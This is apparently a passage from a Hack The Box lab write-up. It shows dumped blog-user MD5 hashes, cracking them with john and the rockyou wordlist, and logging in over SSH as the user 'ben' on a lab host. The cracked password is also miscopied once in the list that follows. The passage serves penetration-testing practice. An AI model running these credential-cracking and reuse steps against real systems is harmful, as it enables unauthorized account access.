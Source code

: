 ```bash
| bokchee  | 36250619fbbc61a26133ff79fdfaa48b         |
| egre55   | d6501933a2e0ea1f497b87473051417f         |
| guest    | NULL                                     |
+----------+------------------------------------------+
```

I found a flag, and MD5 hashes for the blog users.
I ran `john` to crack the hashes for the found users.

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ cat blog_user.hashes 
admin:21232f297a57a5a743894a0e4a801fc3
ben:442179ad1de9c25593cabf625c0badb7
egre55:d6501933a2e0ea1f497b87473051417f



┌──(kali㉿kali)-[~/htb/NEW]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-MD5 blog_user.hashes
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (admin)     
Welcometomyblog  (ben)     
2g 0:00:00:00 DONE (2025-01-05 14:28) 2.439g/s 17491Kp/s 17491Kc/s 30314KC/s !!piglet!!..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

I found 2 valid credentials!
- `admin` : `admin`
- `ben` : `Welcomtomyblog`

##### Shell as `ben` on NIX04

I tried these credentials on `ssh`, and the credential for `ben` worked!

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ ssh ben@172.16.1.12                                          
The authenticity of host '172.16.1.12 (172.16.1.12)' can't be established.
ED25519 key fingerprint is SHA256:XeJgnh2gzqE2SPuygySuBLdxtTzyNCnaz8BQ9D0mC0U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.16.1.12' (ED25519) to the list of known hosts.
ben@172.16.1.12's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

270 packages can be updated.
146 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

```